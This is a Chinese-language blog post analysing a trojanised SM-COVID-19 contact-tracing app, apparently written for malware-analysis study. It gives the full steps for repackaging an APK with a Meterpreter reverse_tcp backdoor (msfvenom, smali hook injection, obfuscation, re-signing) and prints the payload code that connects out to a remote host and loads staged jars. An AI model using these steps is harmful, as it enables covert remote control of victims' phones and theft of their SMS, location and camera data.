```yaml
---
layout: post
title: 安卓木马分析：被感染的SM-COVID-19应用
description: "结合安卓Meterpreter代码解析被重打包的应用实例"
modified: 2020-12-15
tags: [Android, Malware]
math: true
image:
  feature: abstract-7.jpg
---
```


<details open><!-- 可选open -->
<summary>Contents</summary>
<div markdown="1">
<!-- TOC -->

- [安卓木马分析：被感染的SM-COVID-19应用](#%E5%AE%89%E5%8D%93%E6%9C%A8%E9%A9%AC%E5%88%86%E6%9E%90%E8%A2%AB%E6%84%9F%E6%9F%93%E7%9A%84sm-covid-19%E5%BA%94%E7%94%A8)
    - [攻击概述](#%E6%94%BB%E5%87%BB%E6%A6%82%E8%BF%B0)
        - [攻击步骤](#%E6%94%BB%E5%87%BB%E6%AD%A5%E9%AA%A4)
        - [攻击效果](#%E6%94%BB%E5%87%BB%E6%95%88%E6%9E%9C)
    - [定位恶意代码](#%E5%AE%9A%E4%BD%8D%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81)
    - [安卓Meterpreter](#%E5%AE%89%E5%8D%93meterpreter)
    - [恶意代码触发方式](#%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81%E8%A7%A6%E5%8F%91%E6%96%B9%E5%BC%8F)

<!-- /TOC -->
</div>
</details>

## 安卓木马分析：被感染的SM-COVID-19应用

> SM-COVID-19是意大利公司SoftMining开发的APP，用于追踪病毒的接触轨迹。该应用被恶意软件开发者重打包，嵌入了[MSF(Metasploit Framework 渗透测试框架)的Meterpreter后门](https://www.jianshu.com/p/7e1431c9ad66)。

### 攻击概述

#### 攻击步骤

1. 确定良性的载荷APK（[SM-COVID-19](https://play.google.com/store/apps/details?id=it.softmining.projects.covid19.savelifestyle)）

2. 使用MSF的`msfvenom`工具生成恶意负载APK（Metasploit APK）

   ```shell
   $ msfvenom -p android/meterpreter/reverse_tcp LHOST=<url> # Remote Server IP
   ```

3. 反编译载荷APK和负载APK

   ```shell
   $ apktool d xxx.apk # use Apktool to decompile
   ```

4. 将Metasploit APK中Meterpreter的smali代码复制到载荷APK的smali目录下

5. 增加触发恶意代码的方法，即注入钩子（Hook）。例如，在入口点（即`AndroidManifest.xml`中包含intent-filter`<action android:name="android.intent.action.MAIN"/> `的activity）的smali代码中定位`onCreate()`方法，并在方法的起始位置添加一行smali代码：

   ```
   invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
   ```

   注：若要混淆`com/metasploit/stage/Payload`，还需修改`Payload`目录下所有此路径的引用，并改变其自身的目录名。

6. 将Metasploit APK的Manifest文件中的`uses-permission`（权限）和`uses-feature`（软硬件依赖）等补充到新APK的Manifest文件中

7. 打包新的APK

   ```shell
   $ apktool b xxx.apk
   ```

8. 重新签名

   ```shell
   $ keytool -genkey -v -keystore <sig>.keystore -alias <sig> # java工具生成自签名keystore
   $ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore <sig>.keystore xxx.apk <sig> # 使用keystore签名APK
   ```

<!--more-->

#### 攻击效果

当受害者在设备上启动受感染的应用后，原合法应用启动，但恶意代码会在后台连接攻击者的远程服务器。攻击者会获得一个可以执行[各种命令](https://gist.github.com/mataprasad/c5dd39154a852cdc67ff7958e0a82699)的shell，如`dump_sms`, `geolocate`, `webcam_snap`等。

### 定位恶意代码

1. 简单情况：未混淆，恶意代码的包名有明显的层级`com.metasploit.stage`

   >SHA256: f3d452befb5e319251919f88a08669939233c9b9717fa168887bfebf43423aca

2. 中等难度：包名被混淆了，但Manifest文件与原应用不同。反编译新增组件的代码，以匹配[Meterpreter代码](https://github.com/rapid7/metasploit-payloads)

   > SHA256: 7b8794ce2ff64a669d84f6157109b92f5ad17ac47dd330132a8e5de54d5d1afc

3. 复杂情况：Manifest文件与原应用相同。此时需要熟悉Meterpreter代码的特征，以搜索与其相似的部分（例如，硬编码的配置数组，涉及Socket的代码，`DexClassLoader`加载Jar文件的代码）

   >SHA256: 992f9eab66a2846d5c62f7b551e7888d03cea253fa72e3d0981d94f00d29f58a

### 安卓Meterpreter

在[安卓Meterpreter代码](https://github.com/rapid7/metasploit-payloads/tree/master/java/androidpayload/app/src/com/metasploit/stage)中，主函数入口点是`MainActivity`，由它启动实例化了`Payload`的`MainService`。在最重要的`Payload`类中，首先实现了以下操作：

1. 读取硬编码的exploit配置

   ```java
   private static final byte [] configBytes = new byte[] {                                   (byte) 0xde, (byte) 0xad, (byte) 0xba, (byte) 0xad, //placeholder                                   /*8192 bytes */ 0, 0, 0, 0, 0,... 
   };
   ...
   Config config = ConfigParser.parseConfig(configBytes);
   ```

   <figure><img src="{{ site.url }}/images/2020-01-19-COVID_Trojan/1_fLaNwUruNpfrrU0mFtIBGQ.png" style="zoom:50%;" /></figure>

2. 确保手机的CPU保持运转

   ```java
   PowerManager powerManager = (PowerManager) context.getSystemService(Context.POWER_SERVICE); 
   // PARTIAL_WAKE_LOCK使得CPU在屏幕和键盘不工作的情况下仍保持运转
   wakeLock = powerManager.newWakeLock(PowerManager.PARTIAL_WAKE_LOCK, Payload.class.getSimpleName());                                   wakeLock.acquire();
   ```

3. 按需隐藏应用图标

   ```java
   if ((config.flags & Config.FLAG_HIDE_APP_ICON) != 0) {                                           hideAppIcon();         
   }
   ```

4. 打开一个与远程服务器连接的socket

   ```java
   /*
   private static void runStageFromHTTP(String url) throws Exception {
       // 参数url是从恶意应用的硬编码配置中读取的
   }
   */
   
   private static void runStagefromTCP(String url) throws Exception {
       // string is in the format:   tcp://host:port
       String[] parts = url.split(":");
       int port = Integer.parseInt(parts[2]);
       String host = parts[1].split("/")[2];
       Socket sock = null;
   
       if (host.equals("")) {
           ServerSocket server = new ServerSocket(port);
           sock = server.accept();
           server.close();
       } else {
           sock = new Socket(host, port);
       }
   
       if (sock != null) {
           DataInputStream in = new DataInputStream(sock.getInputStream());
           OutputStream out = new DataOutputStream(sock.getOutputStream());
           runNextStage(in, out, parameters);
       }
   }
   ```

连接建立后，远程服务器通过向恶意应用发送一个Jar文件来实现命令执行，[不同的命令对应Jar中特定的类](https://github.com/rapid7/metasploit-payloads/tree/b03f213d4f5bbccb96e7dd491efbfa52aac19821/java/androidpayload/library/src/com/metasploit/meterpreter)。`Payload`接收Jar文件（`stageBytes`），并调用指定类的`start()`方法：

```java
    private static void runNextStage(DataInputStream in, OutputStream out, Object[] parameters) throws Exception {
        if (stageless_class != null) {
            Class<?> existingClass = Payload.class.getClassLoader().
                    loadClass(stageless_class);
            existingClass.getConstructor(new Class[]{
                    DataInputStream.class, OutputStream.class, Object[].class, boolean.class
            }).newInstance(in, out, parameters, false);
        } else {
            String path = (String) parameters[0];
            String filePath = path + File.separatorChar + Integer.toString(new Random().nextInt(Integer.MAX_VALUE), 36);
            String jarPath = filePath + ".jar";
            String dexPath = filePath + ".dex";

            // Read the class name
            String classFile = new String(loadBytes(in));

            // Read the stage
            byte[] stageBytes = loadBytes(in);
            File file = new File(jarPath);
            if (!file.exists()) {
                file.createNewFile();
            }
            FileOutputStream fop = new FileOutputStream(file);
            fop.write(stageBytes);
            fop.flush();
            fop.close();

            // Load the stage
            DexClassLoader classLoader = new DexClassLoader(jarPath, path, path,
                    Payload.class.getClassLoader());
            Class<?> myClass = classLoader.loadClass(classFile);
            final Object stage = myClass.newInstance();
            file.delete();
            new File(dexPath).delete();
            myClass.getMethod("start",
                    new Class[]{DataInputStream.class, OutputStream.class, Object[].class})
                    .invoke(stage, in, out, parameters);
        }

        session_expiry = -1;
    }
```

### 恶意代码触发方式

对应[攻击步骤](#攻击步骤)中的第5步。事实上，除了修改入口点代码，还有其它可选方式。在[第二节](#定位恶意代码)给出的三个样本中，第一个忘记触发了，后两个都重写（override）了`androidx.multidex`包下的`MultiDexApplication`类，并将Meterpreter代码中`MainService`的`start()`方法放在里面（此处Meterpreter中类名经过混淆，`MainService`即`Xmevv`）：

<figure><img src="{{ site.url }}/images/2020-01-19-COVID_Trojan/image-20210120112607552.png" alt="image-20210120112607552" style="zoom:50%;" /></figure>

>Android 5.0（API 级别 21）及更高版本使用名为 ART 的运行时，它本身支持从 APK 文件加载多个 DEX 文件。因此，如果 `minSdkVersion` 为 21 或更高版本，系统会默认启用 MultiDex，并且不需要 MultiDex 库。

参考文章

1. [Embedding Meterpreter in Android APK](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
2. [Locating the Trojan inside an infected COVID-19 contact tracing app](https://cryptax.medium.com/locating-the-trojan-inside-an-infected-covid-19-contact-tracing-app-21e23f90fbfe)
3. [Into Android Meterpreter and how the malware launches it — part 2](https://cryptax.medium.com/into-android-meterpreter-and-how-the-malware-launches-it-part-2-ef5aad2ebf12)